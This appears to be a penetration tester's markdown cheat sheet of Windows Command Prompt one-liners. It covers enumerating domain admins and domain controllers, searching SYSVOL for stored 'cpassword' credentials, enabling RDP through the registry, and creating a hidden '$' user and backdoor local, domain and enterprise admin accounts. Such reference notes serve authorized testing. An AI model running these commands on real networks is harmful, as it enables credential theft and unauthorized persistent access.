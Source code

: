 ```yaml
---
title : "cmd"
# pre : '<i class="fas fa-code"></i> '
description : "Microsoft Command Prompt."
date : 2020-07-09T12:52:37+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CMD - Command Prompt

{{%attachments fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

### Show Domain Admins / Enterprise Admins

`net group "Domain Admins" /domain`

`net group "Enterprise Admins" /domain`

### Run CMD on non-domain joined machine as domain user

`runas /netonly /user:<DOMAIN>\<USER> cmd.exe`

Use the `/profile` flag for running the CMD in the context of the user explicitly on a domain joined system.

`runas /profile /user:<DOMAIN>\<USER> cmd.exe`

Or start an elevated prompt using CMD / PowerShell

`powershell -Command "Start-Process cmd -Verb RunAs"`

### Enable access to C-drive in Explorer

`subst z: c:\`

### Finding cpassword

`findstr /s /n /i /p cpassword \\<DOMAIN>\sysvol\*`

### Show privileges current user

```plain
$ whoami /all

USER INFORMATION
----------------

User Name        SID
================ =============================================
win10\johndo S-1-5-21-4192065701-4228146649-662612674-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON                         Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

### List domain controllers (DC)

```cmd
$ nltest /dclist:offsec.nl

Get list of DCs in domain 'offsec.nl' from '\\DC2016.offsec.nl'.
    DC2008R2.offsec.nl [PDC]  [DS] Site: Default-First-Site-Name
      DC2016.offsec.nl        [DS] Site: Default-First-Site-Name
      DC2019.offsec.nl        [DS] Site: Default-First-Site-Name
The command completed successfully
```

### Add less visible user

Local admin required.

`net user $ LetMeIn123! /add /active:yes`

### Enable / disable Remote Desktop (RDP)

You can enable (remotely) Remote Desktop (RDP) by adjusting the register key. Tip: use 'smbexec.py' / 'wmiexec.py' to enable on remote system where RDP is not enabled. Or use the CrackMapExec module RDP see [CrackMapExec]({{< ref "tools/framework/crackmapexec" >}}).

Enable

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

Disable

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f`

### Add Local Admin via CMD

Creation of the user 'NewLaForMe' - `net user NewLAForMe "NotThatStrongPassword@" /add /Y`

Adding the user to the group - `net localgroup Administrators NewLAForMe /add`

### Add Domain Admin / Enterprise Admin via CMD

Creation of the user 'NewDAForMe' - `net user NewDAForMe "NotThatStrongPassword@" /add /domain /Y`

Adding the user to the group - `net group "Domain Admins" NewDAForMe /add /domain` / `net group "Enterprise Admins" NewDAForMe /add /domain`

Set user status to Active - `net user NewDAForMe /active:yes /domain`

Set user expire date - `net user NewDAForMe /expires:07/19/23 /domain`
